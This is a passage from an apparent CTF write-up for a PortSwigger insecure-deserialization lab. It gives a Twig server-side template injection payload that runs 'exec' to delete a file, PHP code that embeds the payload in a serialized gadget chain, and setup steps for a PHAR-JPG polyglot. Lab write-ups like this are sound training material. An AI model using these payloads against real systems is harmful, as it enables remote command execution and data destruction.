 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-10/images/Pasted%20image%2020230113144922.png)

**Payload:**
```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

- PHAR:

**Now we have a SSTI payload, we can build a PHP payload:**
```php
class CustomTemplate {}
class Blog {}

$object = new CustomTemplate;
$blog = new Blog;

$blog->user = 'any_user_you_want';
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';

$object->template_file_path = $blog;
```

This payload will set a SSTI payload in the `Blog->desc` attribute, which will then parsed to `CustomTemplate->template_file_path`.

**Finally, we can create a PHAR payload.**

**According to [this GitHub repository](https://github.com/kunte0/phar-jpg-polyglot), we can create a PHAR JPG ploygot:**
```shell
┌[root♥siunam]-(/opt)-[2023.01.13|15:21:05]
└> git clone https://github.com/kunte0/phar-jpg-polyglot.git;cd phar-jpg-polyglot
```
